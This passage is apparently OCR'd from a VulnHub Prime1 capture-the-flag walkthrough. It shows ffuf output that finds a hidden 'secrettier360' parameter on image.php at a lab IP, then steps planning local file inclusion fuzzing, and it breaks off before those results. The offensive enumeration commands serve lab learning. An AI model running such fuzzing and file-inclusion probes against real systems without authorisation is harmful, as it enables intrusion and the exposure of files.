 			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.1.103/image.php?FUZZ
	 :: Wordlist         : FUZZ: common.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 8
	________________________________________________

	secrettier360           [Status: 200, Size: 197, Words: 13, Lines: 7]
	:: Progress: [4617/4617] :: Job [1/1] :: 13031 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
	```
10. Enumerate `/image.php?secrettier360=<Enumerate>`
	- Tried
		- `common.txt`,
		- `directory-2.3-medium.txt`
	- Instead, try LFI wordlist
11. Enumerate `/image.php?secrettier360=<Enumerate>` for LFI
	```
	┌──(root💀kali)-[~/vulnHub/Prime1]
	└─# ffuf -u http://192.168.1.103/image.php?secrettier360=FUZZ -w /usr/share/wordlists/LFI/file_inclusion_linux.txt  -fw 13

			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.1.103/image.php?secrettier360=FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/LFI/file_inclusion_linux.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 13
	________________________________________________
